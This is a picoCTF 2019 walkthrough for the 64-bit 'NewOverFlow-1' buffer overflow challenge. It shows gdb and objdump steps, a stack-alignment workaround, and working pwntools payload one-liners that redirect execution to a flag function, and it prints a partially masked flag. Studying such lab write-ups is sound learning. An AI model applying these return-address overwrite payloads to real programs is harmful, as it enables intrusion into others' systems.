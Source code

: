 # NewOverFlow-1
200 points

### Description
*"Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. Source."*

### Solution
This is similar to [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md), but this time with a 64-bit architecture. This just means that the return address will be twice as long. We can use the same `gdb` technique from the [previous problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%236%20-%20OverFlow%202.md) to find out how many characters we need in order to overwrite the return address. Go ahead and try this on your own.

Once we get this value, we need to get the return address of `flag`. You can use `objdump` to do this from the command line:
```bash
$ objdump -D ./vuln | grep "<flag>"
```
**NOTE:** The `-D` flag tells `objdump` to disassemble everything in the executable.

Now we do they same thing as in OverFlow 1, but this time we need to use the `p64` function since we are on a 64-bit architecture. However, if we try to do this like we normally would, we will only get segmentation faults. Let's look at this in `gdb`. You'll want to do this from your home directory on the server since you'll need a fake `flag.txt` for the debugger to use.
```bash
$ gdb /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123/vuln
(gdb) run <<< $(python -c "from pwn import *; print('a'*(64+8) + p64(0x400767))")
Starting program: /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln <<< $(python -c "from pwn import *; print('a'*(64+8) + p64(0x400767))")
/bin/bash: warning: command substitution: ignored null byte in input
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7f037581a760 <_IO_2_1_stdout_>, format=format@entry=0x7fff5751b508 "pico\n", args=args@entry=0x7fff5751b428) at vfprintf.c:2314
2314    vfprintf.c: No such file or directory.
(gdb) set disassembly-flavor intel
(gdb) disas
Dump of assembler code for function buffered_vfprintf:
...
   0x00007f037548c6dc <+140>:   punpcklqdq xmm0,xmm0
   0x00007f037548c6e0 <+144>:   mov    DWORD PTR [rsp+0xa4],eax
   0x00007f037548c6e7 <+151>:   lea    rax,[rip+0x389072]        # 0x7f0375815760 <_IO_helper_jumps>
=> 0x00007f037548c6ee <+158>:   movaps XMMWORD PTR [rsp+0x50],xmm0
   0x00007f037548c6f3 <+163>:   mov    QWORD PTR [rsp+0x108],rax
   0x00007f037548c6fb <+171>:   call   0x7f0375489420 <_IO_vfprintf_internal>
   0x00007f037548c700 <+176>:   mov    r12d,eax
...
```

I'm not showing the full output here, just the part of the code that's causing the error. It's the `movaps` command. If we check out the [reference](https://c9x.me/x86/html/file_module_x86_id_180.html) for this command, we'll see this:
>When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.

So, let's check that the return address is 16-byte aligned (i.e. divisible by 16):
```bash
(gdb) p $rsp+50
$1 = (void *) 0x7fff57518d6a
(gdb) p ((unsigned int)$1) % 16
$2 = 10
```

It's not 16-bit aligned. This is why the exploit isn't working and the program is crashing. A creative way that we often get around issues like this is by calling other functions before calling the function we want to use in order to see if the compiler will align things differently and fix our problem.

In this situation, we can try making another call to `main` before calling `flag`. You can get the address for main using `objdump` or `gdb`.
```bash
$ python -c "from pwn import *; print('\x90'*(64+8) + p64(0x00000000004007e8) + p64(0x0000000000400767))" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Welcome to 64-bit. Give me a string that gets you the flag:
picoCTF{XXX}
Segmentation fault (core dumped)
```

**NOTE:** This is one of those problems where each user has a different flag. Make sure you go through the steps on your own machine to get the flag.

<details>
  <summary>Flag:</summary>
  picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_XXXXXXXX}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
